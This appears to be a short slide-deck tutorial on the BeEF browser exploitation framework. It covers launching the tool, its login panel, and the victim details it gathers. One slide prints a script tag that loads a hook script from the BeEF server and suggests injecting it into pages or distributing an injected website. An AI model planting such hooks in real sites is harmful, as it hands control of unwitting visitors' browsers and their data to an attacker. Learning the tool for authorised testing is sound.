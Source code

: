 
# Run BeEF

- Running it is simple, you just start it using:
```
./beef
```

<img src="https://i.imgur.com/0Iwl4DF.png" width="450"/>

---

# BeEF's UI

- BeEF provides a user-interface to make it easy to work with, it can be accessed through [http://127.0.0.1:3000/ui/panel](http://127.0.0.1:3000/ui/panel)
- It will prompt you to sign in using the credentials you have specified in `config.yaml`.

![beef's sign in](https://github.com/beefproject/beef/wiki/Images/interface-login.png)

---

# BeEF's UI

- The UI panel will show you all browsers BeEF hooked on, with their details and a list of ready commands to use.

![beef's ui](https://beefproject.com/images/feature-3.jpg)

---

# Hooking BeEF

- BeEF provides a **hook script**, which is a JavaScript file that gets injected into a website so that BeEF can take control of it:
```html
<script src="http://127.0.0.1:3000/hook.js"></script>
```
- You can manually inject the script into a pages's html, or distribute an already injected website.
- When someone opens the website with the hook script, they will show up on BeEF's panel.

---

# Victim's Details

- BeEF's try to fetch as much details through the browser about the victim's machine.

<img src="https://i.imgur.com/el9obzk.png" width="550"/>

---